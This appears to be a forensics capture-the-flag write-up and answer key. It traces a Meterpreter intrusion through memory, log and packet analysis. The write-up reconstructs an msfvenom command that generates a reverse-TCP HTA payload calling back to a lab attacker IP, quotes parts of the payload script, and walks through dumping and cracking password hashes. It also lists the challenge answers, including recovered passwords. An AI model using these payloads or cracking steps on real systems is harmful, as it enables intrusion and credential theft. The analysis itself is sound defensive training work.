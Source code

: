 We are given a PCAP (Wireshark), Sysmon Logs and a Raw of Memory (Volatility).

First of all, we analyze the .raw with volatility with the Win7SP1x86 profile. To do so, first of all we execute the pslist command to check all the processes in the memory. In it, we see that there are 2 processes that call the powershell.exe with ids = (3888,5056). Checking more information about process 3888, we discover that a hidden code was executed in the powershell. The code is in base64 and we must decode it using Cyberchef by terminal, using the command:  

	base64 --decode ps1.txt

This way, we obtain the executed script by the attacker. We can also see that we get the following field:

- "ParentCommandLine": "\"C:\\Windows\\System32\\mshta.exe\" \"C:\\Users\\Sam\\Downloads\\sample_template.hta\" "

“.hta” files are automatically run using the “mshta.exe” program. It is very convenient for attackers as mshta.exe is a binary that is signed by microsoft hence reducing suspicion.

To find how this payload was generated we can do a quick google search if we don’t have much idea about msf-venom. In this case the flag “hta-psh” was used to create a malicious hta file that will spawn powershell. We can guess what the command for msf-venom would look like:

`msfvenom -p windows/meterpreter/reverse_tcp lhost=172.16.0.5 lport=80 -f hta-psh > sample_template.hta`

We can see that the commandline that origininated the powershell.exe was this one. As we can see, the sample_template.hta file was executed. The .hta extension is an HTML application extension. 

On the other hand, checking the ID 5056, we can observe the following fields, which looks like the attacker is communicating to an external IP (172.16.0.5) using the port 80. 

- "SourceIp:" "172.16.0.4"
- "DestinationIp": "172.16.0.5"
- "DestinationPort": 80
- "SourcePort": 50055

Once, we got this info, we can open the PCAP file in Wireshark. In the filter section we will introduce the following: 

- ip.dst == 172.16.0.5 && ip.src == 172.16.0.4

As can be seen in the first package, we see a SYN and then 4 ACKs as response, thing that is really suspicious. 

![[Pasted image 20221016153254.png]]

We go back to the script, where we can see that the process runs without using the operation system shell, by the following field:

- \$s.UseShellExecute=$false

We can also check  the compression stream that has been used in the payload (GzipStream):

- create((New-Object System.IO.StreamReader(New-Object System.IO.Compression.GzipStream

Now we will identify the exfiltrated hashes, to do so we will use Volatility since the hashes are stored in the memory. We execute the following code:

	volatility -f WINADMIN.raw --profile=Win7SP1x86 hashdump

As we can see, there are 6 different user hashes.  For each user, we have the username, the first number is the ID of the account, the first hash is the LM hash and the second is NTLM hash. LM hash is weaker than NTLM hash so is easier to break. To decrypt we will use hashes.com, and we will find that the password of SAM is StandardUser. 

![[Pasted image 20221016160631.png]]

Now we want to know what port the attacker used after cracking the password. To do so, we execute:

	volatility -f WINADMIN.raw --profile=Win7SP1x86 netscan | grep 172.16.0.5

We will see that there are 2 outgoing connections to 172.16.0.5 from 172.16.0.4 using ports 50055 and 22. 22 is the port we are looking for. Finally, searching events where powershell.exe was executed we can observe that in one jaws-enum.ps1 is executed.

## What is the attacker IP, and what is the port that they got a reverse shell on?

172.16.0.5, 80

## What's the name of the malicious file that gave remote access to attacker?

sample_template.hta

## What is the process that has been called by the payload upon execution?

powershell.exe

## Knowing the payload name and process name, if the payload was generated by msfvenom, what would be the format option that the attacker would’ve used?

hta-psh

## What property in the executed script says that the process runs without using the operation system shell?

UseShellExecute

## What is the compression stream that has been used in the payload?

GzipStream

## From the SAM and SYSTEM file that has been exfiltrated, how many user’s hashes would’ve been identified?

6

## What is the password of the SAM?

StandardUser

## What is the password of the Admin?

Passw0rd!

## What is the port the attacker used to login to the system after cracking the passwords?

22

## Are there any other scripts the attacker executed on the system? Find the name of the script

jaws-enum.ps1